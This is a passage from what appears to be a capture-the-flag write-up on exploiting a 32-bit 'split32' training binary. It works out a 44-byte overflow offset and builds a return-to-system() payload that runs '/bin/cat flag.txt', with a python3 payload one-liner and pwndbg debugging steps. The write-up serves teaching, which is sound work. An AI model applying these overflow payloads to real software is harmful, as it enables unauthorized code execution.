 We find that we had to write **44 bytes** to the buffer to begin overwriting the return pointer.

#### Building out our payload manually:

**Payload layout:**

<mark style="color:green;">Padding (44) +</mark> <mark style="color:green;"></mark><mark style="color:green;">`system()`</mark> <mark style="color:green;"></mark><mark style="color:green;">+</mark> <mark style="color:green;"></mark><mark style="color:green;">`"/bin/cat flag.txt"`</mark>

`system()`:&#x20;

```
0x0804861a
```

`"/bin/cat flag.txt"`:

```
0x804a030
```

**We need to now place them in&#x20;**<mark style="color:yellow;">**little-endian**</mark>**&#x20;format for our payload:**

<pre><code><strong>system(): 0x0804861a -> \x1a\x86\x04\x08
</strong>
"/bin/cat flag.txt": 0x804a030 -> \x30\xa0\x04\x08
</code></pre>

**Utilizing `python3` to craft our payload and write it to a file named payload**:

```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\x1a\x86\x04\x08' + b'\x30\xa0\x04\x08')" > payload
```

**Execute the binary and send the payload to it:**

```
./split32 < payload
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Result</p></figcaption></figure>

**Visualize the payload in `pwndbg`:**

Obtain a clean instance of `pwndbg`.

**Set a breakpoint at `system()` and run while sending the payload in:**

```
b system
r < payload
```

